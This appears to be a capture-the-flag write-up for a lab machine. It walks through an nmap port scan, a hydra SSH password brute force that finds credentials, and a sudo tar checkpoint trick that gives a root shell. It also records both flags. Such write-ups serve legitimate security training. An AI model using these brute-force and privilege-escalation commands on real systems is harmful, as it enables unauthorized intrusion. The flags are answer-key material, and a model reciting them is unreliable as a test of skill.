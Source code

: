 
```nmap -Pn -p- --min-rate=10000 10.10.78.125```

-Pn to disable ping probes

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

nmap detailed scan:
![](attachments/bountyhackernmap.png)


now running hydra :-

```
 hydra -L user.txt  -P locks.txt 10.10.35.129 -t 4 ssh
 
```

[22][ssh] host: 10.10.35.129   login: **lin**   password: **RedDr4gonSynd1cat3**

logging in with the found credentials

gives off user.txt ----> THM{CR1M3_SyNd1C4T3}

    sudo -l 


lin can run tar as root in the system 

quick digging on gtfobins gives the result
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

which give root access
and cat root.txt gives 
**THM{80UN7Y_h4cK3r}**